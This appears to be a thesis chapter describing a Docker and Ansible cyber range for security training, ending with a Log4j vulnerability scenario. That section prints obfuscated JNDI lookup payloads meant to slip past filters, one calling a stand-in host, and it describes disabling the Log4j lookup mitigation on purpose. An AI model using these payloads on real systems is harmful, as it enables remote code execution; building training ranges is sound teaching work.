\chapter{Validation}\label{chap:validation}

\minitoc

\section{Methodology} \label{sec:validation_methodology}

As a way to validate the stated hypothesis (\textit{cf.} Section \ref{sec:research_problem}, p. \pageref{sec:research_problem}), we have acted upon a thorough process that consists of the following phases:

\begin{enumerate}
    \item \textbf{IaC Tools in Cyber Range Construction}: The role of IaC tools in the context of cyber range construction. % Use Cases | Ansible | Docker 
    \item \textbf{Architecture}: Where details on how the scenario construction process was taken into account, as well as insights on the logic followed.% Ansible
    \item \textbf{Custom Scenarios}: From Linux to Windows-based scenarios, details on how they were developed will be presented and how they can be attacked.
    \item \textbf{Imported Scenarios}: The process of importing scenarios from previous CTF competitions and how they managed to fit in the previously developed scenario construction.
    \item \textbf{Scenario Extensibility}: Details on how new scenarios could be developed and the necessary changes to do so.
    \item \textbf{User Interface Panel}: Presentation of the UI responsible for managing scenarios' in a sort of a CTF-level style.
    \item \textbf{Cloud Deployment}: Insights on how the cloud deployment was taken into account using Microsoft Azure as the cloud provider.
    \item \textbf{Summary}: Final considerations on the Validation chapter.
\end{enumerate}


\section{IaC Tools in Cyber Range Construction} \label{sec:validation_iac_tools_in_cr_construction}

According to Masek \textit{et al.} \cite{unleashing_full_potential_of_ansible_ref} ``\textit{the goal of the IaC is to provide system administrators with the ability to manage knowledge and experiences of plenty of subsystems from one place instead of the traditional approach where each subsystem has its dedicated administrator}''. As in the case of this article, Ansible was the selected tool to simplify the orchestration and configuration management tasks related to our subject, as it gives the ability to create a set of YAML playbook files containing procedural instructions on how a target machine should be configured. Its flexibility in working both in Linux and Windows machines and how easy it is to deploy configurations were critical for choosing this tool.

Across the entire development, Ansible was the selected tool responsible for provisioning Docker containers. As Ansible works on a client-only topology, the Ansible application does not need to be installed in the containers. Therefore, Ansible is responsible for both the creation and the issuing of commands to these containers, and as a result, we build an enterprise-level network entirely made of Docker containers by simply issuing a command. The role of IaC is phenomenal, as the deployment of our network consists of snippets of code used for declaring how our infrastructure should be configured, which is different from the traditional programming concepts we are currently used to.

Lastly, in particular situations, Vagrant was used in order to create Windows-based scenarios. Essentially, the setup we built was a Windows Vagrant box running within a Linux Docker container, letting the trainee successfully explore Windows-based types of attacks. We wanted to keep consistency and create scenarios based on containers and not use a hybrid approach that used containers and VMs separately.

The engineering process, along with these tools, allowed us to obtain a set of cybersecurity training scenarios that can be run locally or remotely without needing an enormously complex infrastructure. More specifically, the lightweight containerization approach followed during the development allowed us to run complex scenarios with a distance of a command or click. With this, we are ready to move into the architectural details of the project.

\section{Architecture} \label{sec:validation_architecture}

The scenario construction process using Docker containers targeted enterprise-level networks. As such, corporate environments normally subdivide networks into three different main sections:

\begin{itemize}
    \item \textbf{External Network} refers to the public internet where machines are not controlled by the organization. As such, risk modeling activities should be taken into account in order to evaluate the risk and the probability specific threats and attack scenarios pose to the internals of the organization. With this, according to the organization's budget, decisions on which security measures to place in the company's network are considered and may include systems like Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), Firewalls, Antivirus, among others.
    \item \textbf{Internal Network} which contains the protected machines of an organization, such as internal databases and services only available to the company's employees and not to the general public.
    \item \textbf{Demilitarized Zone (DMZ)}, which is a network that protects the company's internal network and is targeted with untrustworthy traffic. It includes services available to the public and sits between the \textit{External Network} and the \textit{Internal Network}. It generally includes web servers, Domain Name System (DNS) servers, among others.
\end{itemize}

Our project focuses on these three distinct types of networks and considers several network services that we would typically see on enterprise networks.

The network architecture presented in Fig. \ref{fig:template_net} (p. \pageref{fig:template_net}) shows the services available on every Linux scenario, except for Windows-based scenarios, which slightly differ from this schema. As shown, Ansible appears as the tool responsible for configuring and provisioning the entire network.

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/example.pdf}
    \caption{Template Network Architecture.}
    \label{fig:template_net}
\end{figure}

\subsection{Ansible Architecture} \label{sec:ansible_structure}

Three different playbooks include all the developed scenarios. The first is explicitly used in Linux-based scenarios, representing most designed challenges. The second is used for the Windows Ransomware scenario, and the last for the Windows Active Directory (AD) scenario. On each playbook, the first step is to delete stale Docker containers from previous running scenario executions, as shown in Listing \ref{lst:ansible_removal_of_stale_containers} (p. \pageref{lst:ansible_removal_of_stale_containers}).

\begin{lstlisting}[language=yaml,caption=Removal of Stale Containers.,numbers=none,label={lst:ansible_removal_of_stale_containers}]
- hosts: localhost
  pre_tasks:
    - name: Remove Stale Containers
      ansible.builtin.include_tasks: teardown.yml
      loop: "{{ machines + vulnerables.machines }}"
      loop_control:
        loop_var: pc_info
\end{lstlisting}

Essentially, for every machine object passed, the contents of the \textit{teardown.yml} file are run. This uses the \textit{community.docker.docker\_container} module that is built-in in Ansible and removes the container under a given name.

\subsection{Ansible Groups and Inventory} \label{sec:ansible_groups_inventory}

% Inventory & Groups

Every machine belongs to a group, by default in Ansible, the \textit{all} group. Nonetheless, other groups and respective members were defined in the so-called Ansible Inventory, as presented in Listing \ref{lst:ansible_inventory} (p. \pageref{lst:ansible_inventory}).

\begin{lstlisting}[caption=High-level View of Ansible Inventory.,numbers=none,label={lst:ansible_inventory},literate={=}{$\rightarrow{}$}{1}]
[routers]
[firewalls]
[external]
[internal]
    = [pcs]
    = [dhcp_servers]
[dmz]
    = [dns_servers]
    = [custom_machines] # Scenario's vulnerable machines.
    = [reverse_proxies]
\end{lstlisting}

Each word represents a group of one or more machines. Each group may have several child groups defined by their name, as it happens above, or by machines, represented by their FQDN or IP address. We found groups themselves very useful when restricting specific tasks per group. Then, some groups contain child groups, as happens with the \textit{internal} and \textit{dmz} groups. In the case of Windows-based scenarios, another group called \textit{machine} is used and refers to the Docker container containing the Windows Vagrant box. Listing \ref{lst:ansible_inventory} (p. \pageref{lst:ansible_inventory}) is a very high-level view of how groups are organized within the project. A custom Python inventory script was created to allow the specification of custom variables across each group.

\subsection{Generic Scenario Variables} \label{sec:generic_scenario_variables}

For each playbook, a set of variables is always defined and corresponds to the generic structure of the network, as presented in Fig. \ref{fig:template_net} (p. \pageref{fig:template_net}). We start with the Docker images used across the workflow, their path, and the default image name in case none is specified.

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Docker Images.,numbers=none,label={lst:ansible_vars_1}]
general:
  images:
    - name: kali_test_img
      path: ./attacker
    - name: base_image
      path: .
  default_container_image_name: base_image
\end{lstlisting}

As shown in Listing \ref{lst:ansible_vars_1} (p. \pageref{lst:ansible_vars_1}), we use two Docker images: \textit{base\_image} and \textit{kali\_test\_img}. The former is an image derived from \textit{node:lts-alpine}\footnote{\url{https://hub.docker.com/_/node}} with some extra packages installed. The Alpine distribution was chosen due to its smaller size compared to other images. As a result, the \textit{base\_image} size is around 230MB. The \textit{kali\_test\_img} is an image derived from the official \textit{kalilinux/kali-rolling}\footnote{\url{https://hub.docker.com/r/kalilinux/kali-rolling}} Docker image. This image was extended to include the Xfce\footnote{\url{https://www.xfce.org/}} desktop environment, characterized by its low resource consumption and user-friendliness, as well as the \textit{Virtual Network Computing} (VNC) package, which allows screen sharing and remote control from another device, meaning the computer screen, keyboard, and mouse are mapped from an external device to the device installed with VNC. Accessing port 6080 on the target machine makes it possible to obtain remote control over it, which will be later used in the scenarios. This Kali Linux image is especially suited for offensive tasks, and here the only concern was providing the trainee with a broad range of tools he could use in a scenario. Therefore, the image's size is much larger (around 11GB) compared to the \textit{base\_image} used for common network services.

The second category of Ansible variables for machines belonging to the \textit{all} group can be seen in Appendix \ref{ap1:ansible_vars_docker_networks} (p. \pageref{ap1:ansible_vars_docker_networks}). This section concerns Docker networks, according to the structure mentioned in Section \ref{sec:validation_architecture} (p. \pageref{sec:validation_architecture}). The range of each network is defined, as well as the gateway address which points to the host machine. This is mandatory by Docker, as the host machine should always take part in each created virtual Docker network to forward packets from and to it. At last, the \textit{random\_byte} points to a random byte that changes across each scenario execution and confers some degree of randomization as, for each new scenario execution, the networks' IP addresses change. 

Appendix \ref{ap1:ansible_vars_machine} (p. \pageref{ap1:ansible_vars_machine}) presents a typical example of the attacker machine's declaration. Several attributes are specified according to the logic of a Docker container. We start by its name, the Docker image it uses, possible volumes (anonymous, named, or bind mounts), the groups the container belongs to, and published ports, meaning ports mapped between the Docker container and the host machine. Then, we specify the networks the container belongs to, which can be several, as it happens, for instance, in routers. Lastly, we define where to find the DNS server. In this case, as the attacker machine is located in the external network, we redirect DNS queries to the edge router's network interface sitting in the external network so that these queries are later forwarded to the DNS server in the DMZ. This is achieved using \textit{iptables} rules. For machines located inside the corporate network, DNS queries are sent directly to the DNS server sitting in the DMZ network without the need for any type of forwarding by the edge router. It is also important to mention other attributes that are also possible to be specified, namely the \textit{devices} and \textit{privilege} attributes, all having the same meaning as understood by Docker. Although Appendix \ref{ap1:ansible_vars_machine} (p. \pageref{ap1:ansible_vars_machine}) provided only an example of the attacker machine, other network services follow a similar logic.

\subsection{Custom Scenario Variables} \label{sec:custom_scenario_variables}

After presenting how the standard setup for each scenario is organized, Listing \ref{lst:ansible_vars_4} (p. \pageref{lst:ansible_vars_4}) shows the structure of the scenario's custom variables, starting with an example of a DNS configuration.

\begin{lstlisting}[language=yaml,caption=Ansible Variables - DNS.,numbers=none,label={lst:ansible_vars_4}]
dns:
  - domain: example-domain.ui.com
    internal:
      machine: vuln_service
      network: dmz_net
    external:
      machine: edge_router
      network: external_net
\end{lstlisting}

Here, a domain named \textit{example-domain.ui.com} is presented along with \textit{internal} and \textit{external} specifications of it. This is related to two distinct DNS views that are defined. By ``internal view'' we refer to devices in the internal or DMZ networks; otherwise, they belong to the ``external view''. So, in the listing mentioned above, the \textit{example-domain.ui.com} domain points to the \textit{vuln\_service} container located in the DMZ whenever devices in the ``internal view'' look for this domain. Devices in the ``external view'' point to the external network interface of the edge router. This means resolved DNS requests made by external machines go through the edge router and are forwarded to the respective machine. 

Furthermore, the set of variables concerning custom machines' Docker images have a similar format to the one presented in Listing \ref{lst:ansible_vars_1} (p. \pageref{lst:ansible_vars_1}). Still, the representation is a bit more flexible, allowing the specification of the name of the \textit{Dockerfile} and arguments to be read in the Docker image creation process.

Then, in the vulnerable machines section, the situation is quite the same as in Appendix \ref{ap1:ansible_vars_machine} (p. \pageref{ap1:ansible_vars_machine}). The only exception is the inclusion of an attribute that allows the specification of variables for each machine.

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Port Forwarding.,numbers=none,label={lst:ansible_vars_7}]
port_forwarding:
  - destination_port: 443
    to_machine: reverse_proxy1
    to_network: dmz_net
    to_port: 443
\end{lstlisting}

Then, Listing \ref{lst:ansible_vars_7} (p. \pageref{lst:ansible_vars_7}) references the port forwarding section especially relevant for external machines and how they can communicate with DMZ machines. The attributes meaning are as follows: 

\begin{itemize}
    \item \textit{destination\_port}: the incoming port on the edge router where packets will later be redirected.
    \item \textit{to\_machine}: the target machine to which packets reaching the \textit{destination\_port} will be forwarded to.
    \item \textit{to\_network}: the network where the target machine is placed.
    \item \textit{to\_port}: the destination port in the target machine where the edge router will redirect packets.
\end{itemize}

Some names may be misleading, such as \textit{destination\_port} and \textit{to\_port}. Still, they obey the convention used by \textit{iptables}.

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Setup Section.,numbers=none,label={lst:ansible_vars_8}]
setup:
    machines:
    -   name: localhost
        setup: "{{ playbook_dir }}/scenarios/chessrs/setup/"
    -   name: attackermachine
        setup: "{{ playbook_dir }}/scenarios/chessrs/attacker_machine_setup/*.j2"
\end{lstlisting}

Lastly, we have Listing \ref{lst:ansible_vars_8} (p. \pageref{lst:ansible_vars_8}), which provides information on where to find the setup instructions for the \textit{localhost} and attacker's machines.

\subsection{Ansible Roles \& Network Services} \label{sec:ansible_roles}

The structure followed by Ansible uses a feature called ``roles''. We use a different role for every milestone in the network configuration. Ansible allows defining specific variables and tasks for each role, making grouping an entire workflow into separate roles straightforward to reuse in the development cycle. In our folder structure, a directory represents a single \textit{role}. Inside it, specific tasks are defined. The following sections detail the tasks present for each role. 

\subsubsection{Base Role} \label{sec:ansible_base_role}

The \textit{base} role is responsible for the scenario's initial tasks:

\begin{itemize}
    \item Start the Docker service.
    \item Building the scenario's Docker images, as presented in Listing \ref{lst:ansible_vars_1} (p. \pageref{lst:ansible_vars_1}).
    \item Create the Docker networks, as presented in Appendix \ref{ap1:ansible_vars_docker_networks} (p. \pageref{ap1:ansible_vars_docker_networks}).
    \item Create generic scenario's Docker containers, as presented in Appendix \ref{ap1:ansible_vars_machine} (p. \pageref{ap1:ansible_vars_machine}).
    \item Assign each created container to one or more Ansible groups.
\end{itemize}

\subsubsection{DHCP Role} \label{sec:ansible_dhcp_role}

The \textit{DHCP} role configures the DHCP servers. At first, the \texttt{dhcp} package is installed. Then a template configuration file is created using Jinja2\footnote{\url{https://jinja.palletsprojects.com/en}} templates. At last, the \texttt{dhcp} service daemon is started.

Essentially, the DHCP lease is responsible for assigning an internal IP address with the last byte ranging from 64 to 127, pinpointing the router of the internal network as the gateway router, and updating the DNS server with the one placed in the DMZ network.

\subsubsection{Internal PCs Role} \label{sec:ansible_internal_pcs_role}

The \textit{internal PCs} role handles the behavior of machines inside the internal network. As such, it runs the following tasks:

\begin{itemize}
    \item Install the DHCP client package.
    \item Ask for a DHCP lease to the DHCP server.
    \item Removes the automatically assigned IP address by Docker so that its only IP address is the one stated by the DHCP server.
\end{itemize}

\subsubsection{Internal Role} \label{sec:ansible_internal_role}

The \textit{internal} role is destined for the internal machines and the DHCP server. It simply configures each device's default route as the internal router's interface in the internal network. Every time a default gateway or static route is configured across the Ansible setup, the \textit{iproute2} package, installed on each Docker image by default, is used. The \textit{iproute2} package allows controlling and monitoring various aspects of networking in the Linux kernel, namely routing, tunnels, network interfaces, and traffic control, among others.

\subsubsection{DNS Role} \label{sec:ansible_dns_role}

The \textit{DNS} role is somewhat of a more complex role and is destined for DNS servers. It is responsible for running the following actions:

\begin{itemize}
    \item Install the \texttt{bind} DNS server package.
    \item Copy the necessary template DNS configuration files to the DNS server container.
    \item Start the \texttt{named} DNS service.
\end{itemize}

Two Access Control Lists (ACLs) are created regarding the DNS configuration files. The \textit{internal} deals with which machines stand in the internal and DMZ networks, and the \textit{external} points to every other machine that is not part of the \textit{internal} ACL, meaning external machines only. Afterward, a distinction on the IP addresses retrieved by resolved domains for internal and external machines is made, according to what was presented in Listing \ref{lst:ansible_vars_4} (p. \pageref{lst:ansible_vars_4}). The actual configuration file is presented in Appendix \ref{ap1:ansible_vars_dns_template_conf} (p. \pageref{ap1:ansible_vars_dns_template_conf}). Notice the use of Jinja2 templating. 

Essentially, we create an ACL named ``exclude'' which refers to the IP address of the edge router because it performs NAT over specific packets coming from outside the organization's network. Then, we create the ``internal'' and ``external'' views, as mentioned above, which direct requests to different DNS zones according to the mapped domain. If the DNS query does not match any internal domain, the request is forwarded to the \texttt{8.8.8.8} Google's public DNS server.

\subsubsection{Router Role} \label{sec:ansible_router_role}

The next role leads us to the router's configuration steps. Here we distinguish the configuration of the internal router and the one of the edge router. 

The internal router takes a single action to configure its default gateway with the edge router's DMZ network interface, as this is the gateway that provides internet access to the network.

The edge router's task is to provide NAT to packets whose source matches the internal or DMZ networks. This is accomplished using the \texttt{MASQUERADE} jump of \textit{iptables}. Lastly, a static route is added, specifying that packets destined to the internal network should be directed to the DMZ interface of the internal router.

\subsubsection{Custom Machines Role} \label{sec:ansible_custom_machines_role}

The \textit{custom machines} role is quite similar to the \textit{base} role except that it performs Docker image and container creation on the set of specific machines required by a scenario instead of the generic ones. Although both roles slightly differ, using just one role with some small conditionals would be possible. Still, the adopted approach allows more accessible future updates.

\subsubsection{DMZ Role} \label{sec:ansible_dmz_role}

The \textit{DMZ} role is also quite simple. It targets DNS servers, custom machines, and reverse proxies sitting in the DMZ network. Two tasks are associated with this role: the static configuration route to the internal network, which directs packets to the internal router's interface on the DMZ network, and the configuration of the default gateway to access the internet, which points to the edge router's DMZ network interface.

\subsubsection{Reverse Proxies Role} \label{sec:ansible_reverse_proxies_role}

The \textit{reverse proxies} role, as the name suggests, targets the reverse proxies present in the network. These services sit in front of the scenario's custom machines and forward client requests to those machines. Essentially, they allow establishing HTTPS connections with the client device, handling all the SSL certificate-related tasks from the TLS connection, and talking with the destination machine in the back of the reverse proxy using an HTTP connection. In simple words, it works as a middle agent.

The variables defined for the reverse proxy include a domain and information on the target machine. We provide a piece of the NGINX\footnote{\url{https://www.nginx.com/}} configuration file at Appendix \ref{ap1:ansible_vars_reverse_proxy_template_conf} (p. \pageref{ap1:ansible_vars_reverse_proxy_template_conf}). Again, it allows the configuration of several domains specified using Jinja2 templates. The reverse proxy continuously listens for connections at port 443, and according to the selected domain, it forwards the traffic to the appropriate target. If requests are made to port 80, they are redirected to port 443, meaning the HTTP connection gets upgraded to HTTPS.

After copying the above-mentioned template configuration file to the reverse proxy, we must deal with SSL certificates. For this, we first created a Certificate Authority (CA) by defining an \texttt{openssl.cnf} file and the necessary folder structure, as well as generating the public and private keys associated to the CA.

The \textit{reverse proxies} role generates a Certificate Signing Request (CSR), a specially formatted encrypted message sent from an SSL digital certificate applicant to a CA. The CA then takes the CSR and generates a public-key certificate signed by itself. Then, it removes the password from the private key associated with the newly issued public-key certificate and copies both files to the reverse proxy container. At last, it starts the NGINX service with the loaded configuration. 

One crucial aspect of this configuration is the signing of public-key certificates by the CA. This entails that the created root CA has to be trusted by machines that will eventually access the domain linked to the digital certificate, in this case, the attacker machine. To achieve such setup, the CA's public-key certificate is loaded as trusted in the attacker machine both system-wide and in Firefox, as it will be later explained.

\subsubsection{Firewalls Role} \label{sec:ansible_firewalls_role}

The \textit{firewall} role focuses on the two existing routers which incorporate a firewall. During this explanation, we will refer to the internal router's firewall as the internal firewall and to the edge router's firewall, we will refer to it as the external firewall. 

Starting with the internal firewall, the role performs the following \textit{iptables} actions:

\begin{itemize}
    \item Set the forward chain's default policy to drop, meaning the internal router does not forward traffic by default.
    \item Already established connections or connections previously associated with existing ones to the internal network are accepted.
    \item New, previously established, or related connections from the internal network are also accepted.
\end{itemize}

Concerning the external firewall, this role performs the following \textit{iptables} actions:

\begin{itemize}
    \item \textbf{Generic Rules:}
        \begin{itemize}
            \item Set the forward chain's default policy to drop, meaning the external router does not forward traffic by default.
            \item Established connections or connections previously associated with existing ones to the internal or DMZ networks are accepted.
            \item Packets from the internal or DMZ networks are also accepted in the forward chain.
        \end{itemize}
    \item \textbf{DNS Rules:}
        \begin{itemize}
            \item Set a ``prerouting'' chain rule in which TCP and UDP traffic reaching the edge router's port 53 will have its destination changed (DNAT) to the real DNS server sitting in the DMZ network and destination port 53.
            \item Forwarding traffic to the DNS server is accepted.
            \item A ``postrouting'' NAT rule is added to traffic whose destination is the DNS server.
        \end{itemize}
    \item \textbf{Port Forwarding Rules:}
        \begin{itemize}
            \item Allow TCP and UDP forwarding according to the information provided in the example of Listing \ref{lst:ansible_vars_7} (p. \pageref{lst:ansible_vars_7}). We consider the target machine and the target port number in this regard.
            \item Accept TCP and UDP traffic in the ``prerouting'' chain according to the information provided in the example of Listing \ref{lst:ansible_vars_7} (p. \pageref{lst:ansible_vars_7}). We also consider the target machine and the destination port number in this regard.
            \item A ``postrouting'' NAT rule for the traffic reaching the target machines, as in the example of Listing \ref{lst:ansible_vars_7} (p. \pageref{lst:ansible_vars_7}).
        \end{itemize}
\end{itemize}

With both the internal and external firewalls, we intend to restrict the allowed traffic from the devices externally placed with respect to the organization's network. Only certain services in the DMZ should be allowed external access, never devices from the internal network. On the other hand, connections from inside the corporate network are allowed. This configuration uses \textit{iptables} to create a realistic firewall setup. Therefore, rules are not based on highly-complex logic like which domains an internal device tries to access and if they should be blocked, according to a blocklist of IP addresses and domains.

\subsubsection{Entry point Role} \label{sec:ansible_entrypoint_role}

The \textit{entry point} role performs the necessary tasks to configure a particular machine, as defined at Listing \ref{lst:ansible_vars_8} (p. \pageref{lst:ansible_vars_8}). It creates the environment needed to run the setup scripts, which may include copying template files to the Docker container and then executing the entry point script. This role distinguishes when being conducted by the \textit{localhost} machine or a different machine. For the \textit{localhost}, the entry point script is run without any previous configuration. In the case of the other machines, the Jinja2 template setup files are first copied to the target container, and then the entry point script is run.

\subsubsection{Mesh Role} \label{sec:ansible_mesh_role}

The \textit{mesh} role handles devices that need to join the Tailscale network, called \textit{tailnet}. As explained in Section \ref{sec:selected_tools_tailscale} (p. \pageref{sec:selected_tools_tailscale}), this network allows communication between each device that belongs to it. This is useful when focusing on cloud deployments if we, for instance, want to connect to port 6080 in our attacker machine to be able to control it remotely and, as we will see, in the Windows-based scenarios to access the Windows Vagrant box using \textit{Remote Desktop}.

This role's actions start by installing Tailscale and starting the \textit{tailscaled} service. After this, the container is instructed to join a specific Tailscale network using an authentication key and by specifying a hostname for the machine. An authentication key allows the addition of new nodes to the Tailscale network without needing to sign in to the network. A reusable authentication key was created to connect multiple nodes to the network. Each time a new node joins the Tailscale network using this authentication key, it enters the group of Tailscale ephemeral nodes, which essentially refer to short-lived devices that are automatically removed from the network after a short period of inactivity and are immediately removed from the network in case they are instructed to do so. Also, the usage of the same hostname for a particular machine allows accessing it using a Tailscale feature called ``MagicDNS'' which essentially registers all the DNS names for the network's devices using the following schema: \texttt{[Device Hostname].[Network DNS Name]}
The device's hostname was already mentioned above. By default, the network's DNS name is chosen by Tailscale upon the first usage but can be modified afterward. The ``MagicDNS'' configuration provides easy access to machines when they are not under our control. This will be useful in Section \ref{sec:validation_cloud_deployment} (p. \pageref{sec:validation_cloud_deployment}).

\section{Custom Scenarios} \label{sec:validation_custom_scenarios}

The set of custom scenarios involves three distinct cyber ranges:

\begin{itemize}
    \item A Linux scenario that explores the Apache Log4j vulnerability (\textit{CVE-2021-44228}).
    \item A Windows-based scenario that explores a Ransomware malware executable that encrypts a set of files.
    \item A Windows-based scenario that exposes a vulnerable Active Directory Domain Controller that provides a vast attack surface where the trainee can experiment with several attacks. 
\end{itemize}

For each challenge, details on how to solve them will be revealed. We will present some of the intended solutions to get the secret flag and, when available, unintended solutions.

\subsection{Log4j Scenario} \label{sec:validation_log4j_scenario}

The Apache Log4j vulnerability started haunting the world during the last month of 2021. It was based on the Java-based logging package Apache Log4j and essentially allowed an attacker to execute code on a remote server, the so-called Remote Code Execution (RCE). The scope of machines this vulnerability targeted was enormous, and some put it on the same level as the most severe vulnerability along with \textit{Heartbleed} and \textit{Shellshock}. CVE-2021-44228\footnote{\url{https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228}} details which Log4j versions were affected and gives a brief insight into what is the vulnerability about. In simple words, an attacker that can control log messages may run arbitrary code by means of a process called message lookup substitution.

Back in 2013, there was an upgrade in the Log4j package: the ``JNDILookup plugin''. JNDI means Java Naming and Directory Interface and is a directory service that allows finding data in the form of a Java object through a directory. A directory service is a database for storing information on users and resources. It is often used to manage access privileges, monitor and control access to applications and infrastructure resources. JNDI supports a wide variety of directory services, being the most famous the Lightweight Directory Access Protocol (LDAP). This was the most targeted directory service in Log4j exploits. Java programs may use JNDI and LDAP together to find a Java object containing specific data. For instance, an URL such as \texttt{ldap://localhost:389/o=FEUPThesis} retrieves information on the \textit{FEUPThesis} object from the LDAP server running in port 389 of the same machine. In this example, we used the combination \textit{localhost:389}, but the LDAP server could be located anywhere on the internet. Suppose an attacker controls the above-mentioned LDAP URL. In that case, they can potentially cause a program to load a malicious object from a server under their control and get remote execution control over a machine.

Apache Log4j's syntax\footnote{\url{https://logging.apache.org/log4j/2.x/manual/configuration.html}} follows the pattern \texttt{\$\{prefix:name\}} where \texttt{prefix} is a lookup in the list of available lookups\footnote{\url{https://logging.apache.org/log4j/2.x/manual/lookups.html}}. Examples such as \texttt{\$\{java:version\}}, would also be accepted and, in this case, would retrieve the current version of Java. Lookup messages and logged messages were allowed to be used in the Log4j configuration. The latter was what caused the vulnerability.

All the attacker has to do is find an input that gets logged and add a malicious JNDI query that includes a malicious LDAP server controlled by the attacker. On web servers, logged information typically consists of the \textit{User-Agent} HTTP header or the inputted \textit{username}, for instance.

Some techniques can be used to evade simplistic blocking of strings like \texttt{\$\{jndi:ldap} by using some features of Log4j. For instance, we can use the \texttt{\$\{lower\}} feature which lowercases characters: \texttt{\$\{jndi:\$\{lower:l\}\$\{lower:d\}a\$\{lower:p\}://example.com/x\}}. The usage of the \texttt{:-} syntax enables the attacker to set a default value for a lookup, and if the value looked up does not exist, then the predefined default value is considered:

\texttt{\$\{jndi:\$\{env:NOTEXIST:-l\}d\$\{env:NOTEXIST:-a\}\$\{env:NOTEXIST:-p\}}


Similar techniques use strings like \texttt{\$\{\$\{::-j\}\$\{::-n\}\$\{::-d\}\$\{::-i\}}. Other techniques include encoding \textit{\$\{} as \textit{\%24\%7B} or \textit{\textbackslash u0024\textbackslash u007b}.

During this period of cyber war, there were attempts to gather information on the target machine using many crafted strings, which attempted to collect the target machine's users, Docker image names, home directory paths, users and passwords from databases, and hostnames, among others.

\subsubsection{Scenario Construction} \label{sec:validation_log4j_scenario_construction}

This scenario is based on the Tier 2 Unified\footnote{\url{https://www.hackthebox.com/machines/unified}} Hack The Box challenge and in the \textit{SprocketSecurity} blog post \cite{sprocketsecurity_ref}, essentially reproducing a vulnerable version of the Ubiquiti UniFi network application dashboard. This works as an interface manager for all the hardware devices belonging to Ubiquiti's mesh network allowing the changing of several network-related configurations. To replicate the scenario, we used Goofball222's GitHub UniFi Docker container repository\footnote{\url{https://github.com/goofball222/unifi}}. We opted for using version 6.4.54 and tweaked the \textit{Dockerfile} suited for Alpine-based distributions by installing the \texttt{python3} package
and removing the \texttt{JVM\_EXTRA\_OPTS=-Dlog4j2.formatMsg\\NoLookups=true} environment variable that turns off variable lookups, which was turning the network application to be not vulnerable to the Log4j exploit. It's also important to refer that this configuration uses a MongoDB database that supports the UniFi Network Application, where users are saved.

% CA
At first, we could not get an HTTPS connection with UniFi's dashboard as a default CA certificate was generated by an untrusted CA. Therefore, it was time to create our Certificate Authority, responsible for issuing the signed public-key digital certificates associated with a predefined domain name. Turning our created CA into trusted in the target device made it possible to achieve an HTTPS connection. Appendix \ref{ap1:ansible_generate_ssl_certificate_unifi} (p. \pageref{ap1:ansible_generate_ssl_certificate_unifi}) presents the commands that were used to create the CA's key pair, generating a CSR with the \textit{subjectAltName} extension and getting the final public-key certificate signed by the new root CA, as well as the private key's password protection removed:

\lstset{
  language=bash,
  basicstyle=\ttfamily,
  showstringspaces=false,
  commentstyle=\color{red},
  keywordstyle=\color{blue}
}

The steps to load the certificates into the Docker container were as follows:

\begin{enumerate}
    \item Map the certificates folder path to the \texttt{/usr/lib/unifi/cert} volume exposed by the container.
    \item Insert in the certificates folder the PEM format SSL private key file corresponding to the server's SSL certificate under the name of \texttt{privkey.pem}.
    \item Insert in the certificates folder the PEM format SSL certificate with the full certificate chain under the name of \texttt{fullchain.pem}.
\end{enumerate}

The private key file belonging to UniFi's dashboard domain was obtained in the final command from Appendix \ref{ap1:ansible_generate_ssl_certificate_unifi} (p. \pageref{ap1:ansible_generate_ssl_certificate_unifi}). The full chain file is simply a concatenation of the public-key certificates of the CA and the \texttt{example-domain.ui.com} server domain. 

